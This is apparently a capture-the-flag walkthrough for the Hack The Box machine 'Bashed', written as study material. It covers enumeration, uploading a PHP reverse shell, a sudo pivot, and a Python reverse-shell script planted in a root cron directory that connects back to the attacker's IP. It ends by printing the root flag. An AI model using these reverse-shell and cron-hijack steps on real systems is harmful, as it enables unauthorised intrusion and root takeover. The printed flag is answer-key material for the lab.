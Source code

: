 ```yaml
---
cover: ../../../../.gitbook/assets/Bashed.png
coverY: 177.62133333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bashed

Add IP address to local DNS

```sh
[attacker] echo '10.129.235.166 bashed.htb'|sudo tee -a /etc/hosts
```

Nmap scan

```sh
[user@attacker] nmap bashed.htb
```

Open port 80/TCP with HTTP service.\
WFuzz web enumeration

```sh
[user@attacker] wfuzz -u http://bashed.htb/FUZZ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404
```

Available paths :

* http://bashed.htb/css
* http://bashed.htb/dev
* http://bashed.htb/images
* http://bashed.htb/js
* http://bashed.htb/php
* http://bashed.htb/uploads

I find a web shell on http://bashed.htb/php/dev/phpbash.php\
Import php reverse shell file.

```sh
[user@attacker] cp /usr/share/webshells/php/php-reverse-shell.php payload.php
```

Edit the `payload.php` with attacker host and netcat post listener.

<figure><img src="../../../../.gitbook/assets/bashed-php-reverse-shell-script.png" alt=""><figcaption></figcaption></figure>

On the attacker, start a Python web server

```sh
[user@attacker] python3 -m http.server
```

On the target, download the file `payload.php`

```sh
[www-data@target] wget -O payload.php http://10.10.14.81:8000/payload.php
```

From the attacker, start the netcat listener

```sh
[user@attacker] nc -lnvp 1234
```

Then go to the website and execute http://bashed.htb/uploads/payload.php\
Got the reverse shell on target.\
List sudo privileges.

```sh
[www-data@target] sudo -l
```

`www-data` can run all sudo command as `scriptmanager`

```sh
[www-data@target] sudo -u scriptmanager '/bin/bash'
[scriptmanager@target] cat /home/arrexel/user.txt
```

The file `test.txt` has a cron because somethin is updating its timestamp every minute.

<figure><img src="../../../../.gitbook/assets/bashed-cron-52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/bashed-cron-53.png" alt=""><figcaption></figcaption></figure>

Code inside of the file `test.py`

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Text inside of the file `test.txt`

```
testing 123!
```

Thus, only root can write in `test.txt` and it has root cron which executes `test.py` every minute.\
Add a new python file in the same directory `/scripts/write.py` which contains the following code

```sh
[scriptmanager@target] echo 'import sys,socket,os,pty
s=socket.socket()
s.connect(("10.10.14.81", 1235))
[os.dup2(s.fileno(),fd) for fd in(0,1,2)]
pty.spawn("sh")'|tee /scripts/write.py
```

Open the netcat listener

```sh
[user@attacker] nc -lnvp 1235
```

After 1 minut, it opens a root shell

```sh
[root@target] cat /root/root.txt	# 204827fc65f65b3c967b7c38298d6382
```
